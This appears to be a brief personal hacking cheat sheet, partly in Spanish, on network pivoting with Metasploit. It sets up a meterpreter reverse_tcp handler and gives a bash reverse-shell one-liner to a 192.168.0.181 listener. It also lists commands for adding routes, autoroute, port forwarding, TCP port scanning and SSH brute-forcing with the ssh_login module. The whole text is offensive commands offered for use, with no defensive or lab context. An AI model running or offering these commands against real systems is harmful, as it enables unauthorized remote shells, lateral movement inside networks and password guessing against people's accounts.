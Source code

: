 ### Pivoting 
#pivoting
use /multi/handler

```python

payload/linux/x86/meterpreter/reverse_tcp

```
run
```python
sh -i >& /dev/tcp/192.168.0.181/4444 0>&1
```

route add
```python
route add 10.0.2.4 255.255.255.0 2
```

eliminar una ruta
```python
	route del
```

agregar rutas automaticas
```python
	use multi/manage/autoroute
```


pivoting by portforgarding 
```python
portfwd add -l 7777 -p 21 -r 10.0.2.5
```

escaneo de puertos TCP
```python
	scanner/portscan/tcp
```

fuerza bruta para ssh con metaesploit
```python
	ssh_login
```

